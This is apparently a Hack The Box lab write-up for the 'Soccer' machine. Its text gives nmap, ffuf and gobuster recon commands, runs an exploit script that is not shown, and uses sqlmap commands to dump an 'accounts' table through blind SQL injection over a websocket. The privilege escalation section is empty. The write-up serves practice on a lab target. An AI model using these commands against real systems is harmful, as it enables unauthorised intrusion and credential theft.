# Soccer Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

nmap -sC -sV -oA soccer 10.10.11.194 -T4

22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0) 

80/tcp   open  http            nginx 1.18.0 (Ubuntu)

9091/tcp open  xmltec-xmlmail? 

# ${{\color{purple}Initial Foothold}}\ $
ffuf -w /opt/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://FUZZ.soccer.htb/

![image](https://user-images.githubusercontent.com/123066149/221426650-3ce1d6a0-387e-4b96-99c9-c57907264a0e.png)


gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30

![image](https://user-images.githubusercontent.com/123066149/221426567-190f69c9-3246-4d37-a664-fda04cf7ea3f.png)

# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/221426683-45621127-e2e1-4f58-a4f0-f70179739fa6.png)

![image](https://user-images.githubusercontent.com/123066149/221426720-39fb117e-96f3-434c-abfd-d2957c87da51.png)

![image](https://user-images.githubusercontent.com/123066149/221426751-bb41721f-2bd1-47fa-8c82-6b50befd5de3.png)

![image](https://user-images.githubusercontent.com/123066149/221426793-6006262e-a75f-4eb4-9bac-778836aec9f7.png)

![image](https://user-images.githubusercontent.com/123066149/221426813-0d466cde-8718-4918-ae66-e73459ccfecb.png)

![image](https://user-images.githubusercontent.com/123066149/221426829-5a1433a3-5563-4453-896e-101884bb5f45.png)

![image](https://user-images.githubusercontent.com/123066149/221426874-d2c8f046-4ce2-409a-861c-eda11f80bd9f.png)

![image](https://user-images.githubusercontent.com/123066149/221426884-1d21bcdc-1e32-42dc-87a4-18788b927e5b.png)

![image](https://user-images.githubusercontent.com/123066149/221426924-e473c558-6c19-4768-aa46-fdafa8e19d65.png)

![image](https://user-images.githubusercontent.com/123066149/221426962-e3a759f0-702d-4b55-b28d-71af8be2cc67.png)

![image](https://user-images.githubusercontent.com/123066149/221426997-3907a810-e0cb-434e-962b-7b307b7c67c7.png)

![image](https://user-images.githubusercontent.com/123066149/221427051-8f2a2b3b-ee68-4070-8407-0df1ea273c41.png)

![image](https://user-images.githubusercontent.com/123066149/221427067-f0fde174-af34-4488-8d6c-fcf2a7e977a4.png)

![100](https://user-images.githubusercontent.com/123066149/221427390-f015d697-787f-402e-8dc1-db5ea71c5cde.PNG)

https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

python exploit.py

![image](https://user-images.githubusercontent.com/123066149/221427259-74842338-5d88-4825-9ecf-67d5286aefdf.png)

![image](https://user-images.githubusercontent.com/123066149/221427625-c4f78986-4131-4fc2-911d-b6aa20eb8eae.png)


sqlmap -u "http://localhost:8081/?id=" --level=3 --risk=2

sqlmap -u "http://localhost:8081/?id=" --current-db

sqlmap -u "http://localhost:8081/?id=" -D soccer_db --tables

sqlmap -u "http://localhost:8081/?id=" -D soccer_db -T accounts --dump

![image](https://user-images.githubusercontent.com/123066149/221427478-c2986ffb-f813-4b86-83d0-e00711fa3128.png)

![image](https://user-images.githubusercontent.com/123066149/221427769-c84a68dc-b2b6-4090-96c0-80eef3cdecfb.png)

# ${{\color{purple}Privilege Escalation}}\ $



# ${{\color{purple}Points of Improvement}}\ $
